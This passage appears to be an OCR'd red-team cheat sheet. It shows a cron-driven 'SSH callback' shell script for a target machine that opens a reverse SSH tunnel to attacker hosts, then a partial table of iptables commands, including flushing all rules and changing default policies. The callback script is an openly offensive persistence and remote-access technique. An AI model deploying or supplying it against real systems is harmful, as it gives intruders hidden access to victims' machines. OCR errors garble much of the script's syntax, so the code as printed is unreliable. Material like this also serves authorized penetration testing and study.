 ### Create SSH Callback

```text
Set up script in crontab to callback every X minutes.
Highly recommend YOU
set up a generic user on red team computer (with no shell privs).
Script
will use the private key (located on callback source computer) to connect
to a public key (on red team computer). Red teamer connects to target via a
local SSH session (in the example below, use #ssh -p4040 localhost)
#!/bin/sh
# Callback: script located on callback source computer (target)
killall ssh /dev/null 2 &1
sleep 5
REMLIS-4040
REMUSR-user
HOSTS=''domainl.com domain2.com domain3.com''
for LIVEHOST in SHOSTS;
do
    COUNT=S(ping -c2 $LIVEHOST | grep 'received' | awk -F','{ print $2 } '
    | awk ' ( print $1 | ')
    if [ [ $COUNT -gt 0 ] ] ; then
    ssh -R $(REMLIS}:localhost:22 -i
    "/home/$(REMUSR}/.ssh/id rsa" -N $(LIVEHOST} -1 $(REMUSR}
fi
```

## Iptables command

Use iptable for ipv6

<table>
   <thead>
     <tr>
       <th style="text-align:left"><b>Command</b>
       </th>
       <th style="text-align:left"><b>Description</b>
       </th>
     </tr>
   </thead>
   <tbody>
     <tr>
       <td style="text-align:left">iptables-save -c file</td>
       <td style="text-align:left">Extract iptable rules and save to file</td>
     </tr>
     <tr>
       <td style="text-align:left">iptables-restore file</td>
       <td style="text-align:left">retrieving iptables rules</td>
     </tr>
     <tr>
       <td style="text-align:left">iptables -L -v --line-numbers</td>
       <td style="text-align:left">List of all rules with their line number</td>
     </tr>
     <tr>
       <td style="text-align:left">iptables -F</td>
       <td style="text-align:left">Restart all rules</td>
     </tr>
     <tr>
      <td style="text-align:left">
         <p>iptables -P INPUT/FORWARD/OUTPUT</p>
         <p>ACCEPT/REJECT/DROP</p>
       </td>
       <td style="text-align:left">Policy change if rules are not met</td>
     </tr>
